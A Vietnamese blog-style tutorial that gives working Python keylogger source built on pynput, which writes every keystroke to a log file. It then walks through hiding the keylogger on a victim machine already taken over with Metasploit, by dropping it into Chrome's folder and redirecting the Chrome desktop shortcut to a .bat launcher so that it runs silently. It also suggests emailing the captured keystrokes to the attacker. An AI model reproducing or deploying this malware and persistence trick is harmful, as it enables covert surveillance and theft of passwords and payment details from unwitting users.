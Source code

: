 # Keylogger

- Keylogger là một chương trình giúp chúng ta theo dõi được tổ hợp các phím được bấm trên bàn phím. Có vẻ hơi confused nhỉ, để dễ hiểu hơn mình sẽ lấy ví dụ, nếu bạn thực hiện gõ bất kì thứ gì trên bàn phím, Keylogger sẽ thực hiện theo dõi bạn vừa gõ những phím gì, sau đó lưu chúng vào một file, thường gọi là logfile, đặc biệt khá nguy hiểm nếu một số thông tin cá nhân nhạy cảm như username, mật khẩu, thông tin thẻ thanh toán trực tuyến,... của bạn đã bị theo dõi và lưu lại sau đó được chuyển đến tay kẻ xấu.
- mình tạo keylogger với thư viện **pynput** của python 

```python
from pynput.keyboard import Listener
def keypress(key):
    key=str(key)
    if(key == "Key.esc"):
        raise SystemExit(0)
    key = key.replace("'", "")
    if (key == "Key.space"):
        key = " "
    if (key == "Key.enter"):
        key = "\n"
    f = open('keylogger.txt', 'a', encoding='utf8')
    f.write(key)
    f.close()
    print(key)

obj = Listener(on_press=keypress)
obj.start()
obj.join()
```
- khi chạy file mình gõ các ký tự nó sẽ hiện lên terminal và lưu vào file keylogger.txt

![image](https://hackmd.io/_uploads/S1oc3jikR.png)

![image](https://hackmd.io/_uploads/ByGi2sjyC.png)

- khí đó nếu như mình đã chiếm được quyền điều khiển máy victim như bài trước mình khai thác với Metasploit xem <a href="https://hackmd.io/@monstercuong7/ry4Rb8RRT" > tạo đây </a>
- mình sẽ có thể upload được các file từ máy mình lên máy victim và kể cả file keylogger này 
- khi đó mình có thể cải tiến file keylogger, khi victim gõ được 50 ký tự trên bàn phím máy tính sẽ gửi mail cho mình nội dung đã thực hiện 
- và ví dụ mình muốn theo dõi trên chrome
- mình sẽ upload file keylogger vào thư mục "C:\Program Files\Google\Chrome\Application\" nơi chứa chrome


![image](https://hackmd.io/_uploads/rk7N6ojyA.png)

- sau đó mình tạo thêm 1 file keylogger.bat ở đây


![image](https://hackmd.io/_uploads/S1Sq6jskR.png)

- với nội dung như sau


![image](https://hackmd.io/_uploads/SkWhRjjJR.png)

- sau đó mình đổi nội dung shortcut lúc đầu từ "C:\Program Files\Google\Chrome\Application\chrome.exe" sang "C:\Program Files\Google\Chrome\Application\keylogger.bat"

![image](https://hackmd.io/_uploads/SJzKUhjk0.png)


- và khi victim nhấp vào shortcut chrome trên desktop file keylogger sẽ được chạy và nó sẽ chạy đồng thời ứng dụng chrome và file keylogger.pyw chạy ngầm để theo dõi bàn phím máy tính


![image](https://hackmd.io/_uploads/Hyiiz2j1R.png)

